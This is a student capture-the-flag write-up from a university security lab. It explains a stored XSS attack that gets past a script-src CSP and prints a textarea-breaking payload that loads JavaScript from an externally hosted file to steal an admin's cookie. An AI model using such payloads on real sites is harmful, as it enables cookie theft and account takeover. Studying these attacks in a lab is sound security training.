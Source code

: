 # Challenge `Read my lips: No more scripts!` writeup

- Vulnerability: XSS vulnerability but this time inline scripts are not allowed because of the Content Security Policy directive: script-src *
- Where: *Update post and send it to admin review* button
- Impact: We can inject code in the *Content* text area on the *Add a new blogpost for review* section that will be reflected in the web browser after clicking on the *Update post and send it to admin review* button. This time however the script must be in a file hosted for example in sigma. This script can include a link to a website you are controlling and by doing a request to it you can collect the cookies of who did the request there

## Steps to reproduce

1. This challenge is similar to the `Go on and censor my cookies` challenge but the script must be in a file.
2. Create a JavaScript file (read_my_lips_no_more_scripts.js) on sigma's directory `web/` like [this](https://gitlab.rnl.tecnico.ulisboa.pt/ssof2223/writeups/ist193342/-/blob/master/lab4/read_my_lips_no_more_scripts.js)
3. Use the same logic we used in the `Go on and censor my cookies` challenge closing the **textarea** tag and writing the code after. The final payload will be `</textarea><script src="http://web.tecnico.ulisboa.pt/ist193342/read_my_lips_no_more_scripts.js"></script><textarea>`
4. The rest of the steps are also the same as the `Go on and censor my cookies` challenge
5. Like in that challenge there is an admin's cookie called **SECRET** whose value is the flag
